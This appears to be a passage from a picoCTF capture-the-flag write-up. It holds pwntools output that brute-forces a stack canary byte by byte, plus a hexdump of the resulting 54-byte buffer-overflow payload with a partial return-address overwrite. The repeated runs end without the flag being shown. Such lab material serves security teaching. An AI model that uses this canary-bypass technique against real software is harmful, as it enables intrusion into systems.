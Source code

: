 ```bash
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 3809804)
[*] Found canary byte: j
...
[+] Starting remote process 'vuln' on 2019shell1.picoctf.com: pid 3810402
[*] Sending: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAALjg
[*] Ok... Now Where's the Flag?
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 3810402)
[*] Found canary byte: g
...
[+] Starting remote process 'vuln' on 2019shell1.picoctf.com: pid 3810833
[*] Sending: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAALjgH
[*] Ok... Now Where's the Flag?
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 3810833)
[*] Found canary byte: H
Payload: 00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
*
00000020  4c 6a 67 48  42 42 42 42  42 42 42 42  42 42 42 42  │LjgH│BBBB│BBBB│BBBB│
00000030  42 42 42 42  ed 07                                  │BBBB│··│
00000036
Size: 54
[*] Canary value: LjgH
[+] Starting remote process 'vuln' on 2019shell1.picoctf.com: pid 3810837
[+] Receiving all data: Done (28B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 3810837)
Ok... Now Where's the Flag?

[+] Starting remote process 'vuln' on 2019shell1.picoctf.com: pid 3810842
[+] Receiving all data: Done (28B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 3810842)
Ok... Now Where's the Flag?

[+] Starting remote process 'vuln' on 2019shell1.picoctf.com: pid 3810848
[+] Receiving all data: Done (28B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 3810848)
Ok... Now Where's the Flag?

[+] Starting remote process 'vuln' on 2019shell1.picoctf.com: pid 3810853
[+] Receiving all data: Done (28B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 3810853)
Ok... Now Where's the Flag?

[+] Starting remote process 'vuln' on 2019shell1.picoctf.com: pid 3810858
[+] Receiving all data: Done (28B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 3810858)
Ok... Now Where's the Flag?

[+] Starting remote process 'vuln' on 2019shell1.picoctf.com: pid 3810863
[+] Receiving all data: Done (28B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 3810863)
Ok... Now Where's the Flag?

[+] Starting remote process 'vuln' on 2019shell1.picoctf.com: pid 3810868
[+] Receiving all data: Done (28B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 3810868)
Ok... Now Where's the Flag?

[+] Starting remote process 'vuln' on 2019shell1.picoctf.com: pid 3810873
[+] Receiving all data: Done (28B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 3810873)
Ok... Now Where's the Flag?

[+] Starting remote process 'vuln' on 2019shell1.picoctf.com: pid 3810878
[+] Receiving all data: Done (28B)
```